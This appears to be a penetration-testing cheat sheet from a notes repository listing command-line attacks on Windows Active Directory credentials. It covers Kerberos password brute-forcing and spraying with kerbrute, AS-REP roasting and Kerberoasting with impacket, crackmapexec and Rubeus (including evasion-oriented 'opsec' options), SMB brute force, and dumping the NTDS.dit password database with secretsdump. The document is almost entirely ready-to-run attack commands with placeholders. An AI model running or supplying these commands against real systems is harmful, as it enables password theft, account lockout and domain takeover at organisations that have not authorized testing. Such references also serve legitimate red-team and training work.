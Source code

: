 # Passwords & hashes
## Kerberos
Brute force passwords - WILL LOCKOUT USER:
```bash
kerbrute bruteuser --dc <IP> -d '<DOMAIN>' <PASSLIST> '<USER>'
```

Check a password against users in list:
```bash
kerbrute passwordspray --dc <IP> -d '<DOMAIN>' -v <USERLIST> '<PASS>'
```

AS-REP Roasting:
```bash
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request # PTH
crackmapexec ldap <IP> --kdcHost <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT> # PTH
Rubeus.exe asreproast /nowrap
```

(TGS-REP) Kerberoasting:
```bash
impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>
impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request # PTH
crackmapexec ldap <IP> --kdcHost <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT> # PTH
Rubeus.exe kerberoast /nowrap
Rubeus.exe kerberoast /usetgtdeleg /nowrap # tgtdeleg ticket to request service tickets - requests RC4 for AES accounts
Rubeus.exe kerberoast /rc4opsec /nowrap # "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts
```

## SMB
Brute force passwords - WILL LOCKOUT USER:
```bash
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> # PTH
```

Check password against users in list:
```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' # PTH
```

Dump NTDS.dit file. (If you've admin rights):
```bash
impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>' # PTH
```